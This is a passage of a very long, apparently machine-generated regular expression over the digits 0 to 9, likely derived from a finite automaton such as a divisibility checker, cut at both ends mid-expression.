|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(4|50*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|50*7|(2|9))*((((((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(4|50*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|1|50*4)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(4|50*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|0|50*5)(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(0|10*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|10*5|4)*(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9)))|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8)))|((((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(4|50*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|1|50*4)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9)))|(((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7))|(((((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(6|70*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|70*4|(3|8))(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(6|70*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|70*5|(2|9))(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2